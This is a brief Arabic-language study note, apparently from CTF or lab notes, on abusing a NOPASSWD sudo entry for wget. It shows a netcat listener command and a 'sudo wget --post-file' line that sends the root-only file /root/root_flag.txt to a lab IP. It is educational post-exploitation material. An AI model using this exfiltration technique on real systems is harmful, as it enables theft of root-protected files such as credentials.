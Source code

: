 ### لو عملت :
```
sudo -l
```
### ولقيت النتيجه كده :
![[Pasted image 20250322015037.png]]
### يعني اي ده :
- المستخدم user لديه صلاحية **تشغيل `wget` بصلاحيات الروت** **بدون الحاجة لإدخال كلمة مرور** (`NOPASSWD`).
- هذا يعني أنه يمكنه تنفيذ أوامر باستخدام `wget` للوصول إلى ملفات النظام الحساسة.

### تقدر تستغلها لل Post-Exploitation  ازاي :

#### 1. روح اعمل listen علي port :
```
nc -nvlp 1234
```

اعمل الامر التالي :
### **❖ تنفيذ الأمر التالي على الجهاز المُستهدف**: علشان احمل ملف اسمه root_flag.tx

bash

CopyEdit

```
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.58.1:1234
```

🔍 **شرح الأمر:**

-ء **`sudo`** → تشغيل الأمر بصلاحيات `root`.
-ء **`/usr/bin/wget`** → تشغيل `wget` لنقل البيانات.
- ء **`--post-file=/root/root_flag.txt`** → تحميل محتوى الملف `/root/root_flag.txt` وإرساله إلى الوجهة المحددة.
- ء **`http://10.17.58.1:1234`** → إرسال البيانات إلى **الخادم المستمع (Netcat Listener) على جهازنا المحلي**.
